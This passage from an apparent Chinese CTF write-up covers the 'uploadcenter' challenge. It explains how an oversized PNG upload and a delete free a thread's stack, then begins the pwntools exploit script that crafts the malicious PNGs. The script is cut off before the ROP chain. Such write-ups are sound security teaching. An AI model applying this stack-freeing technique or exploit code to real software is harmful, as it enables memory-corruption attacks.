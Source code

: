 我们再上传一个图片：

![image-20200513185357531](https://i.loli.net/2020/05/20/atPHbrCEzjF7hZV.png)

我们上传了一个9MB大小的图片，但是width和height分别只有1024所以只分配了1MB的空间。我们再查看一下当前线程的栈地址：

![image-20200513185533839](https://i.loli.net/2020/05/20/a3R5wVnk1LMFO2J.png)

当前线程的rsp指向了0x7f4d93437f00如果我们想要利用该程序的漏洞，就需要将这一部分也给释放掉。我们计算一下rsp到图片地址的大小0x7f4d93437f00-0x7f4d92b38000=0x8fff00，如果图片的IDAT的数据为9MB超过了0x8fff00，所以该线程的栈会被我们释放掉。我们删除图片然后来观察一下内存情况：

![image-20200513192628766](https://i.loli.net/2020/05/20/H9cEMAyB1kGXfoT.png)

可以看到我们把线程的栈也给释放掉了。如此我们就可以修改线程栈的信息了（注意：这里之所以线程没有崩溃掉，是因为线程进入了等待消息的状态，也就是进入了休眠）。我们计算一下线程栈地址到mmap顶部的距离，计算得0x1100，同时我们是将png的全部内容复制到mmap的空间里，当我们计算rop链时，需要减掉png头部的信息。如此我们就可以写出exp。

# EXP

````python
from pwn import *
from LibcSearcher import *
import zlib
from struct import pack
if args['REMOTE']:
	sh=remote()
else:
	sh=process('./uploadcenter')

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'
elf=ELF('./uploadcenter')
# gdb.attach(sh,'''
# c
# ''')
def choice(election):
	sh.recvuntil('6 :) Monitor File\n')
	sh.sendline(str(election))

def genPngEx(width,height,bit_depth,color_type,i_data,data_length):
	comprMethod=0
	filterMthod=0
	interlaceMehod=0
	#magic
	i_magic=pack('>Q',0x89504E470D0A1A0A)
	#IHDR
	ihdr='IHDR'+pack('>I',width)+pack('>I',height)+chr(bit_depth)+chr(color_type)+chr(comprMethod)+chr(filterMthod)+\
	chr(interlaceMehod)
	ihdr=p32(len(ihdr)-4)+ihdr+'AAAA'	
	#IDAT
	idat=p32(data_length)+'IDAT'+i_data+'AAAA'
	#IEND
	iend=p32(0)+'IEND'+'AAAA'

	return i_magic+ihdr+idat+iend

def genPng(width,height,data):
	data_length=len(data)
	return genPngEx(width,height,8,2,data,data_length)
````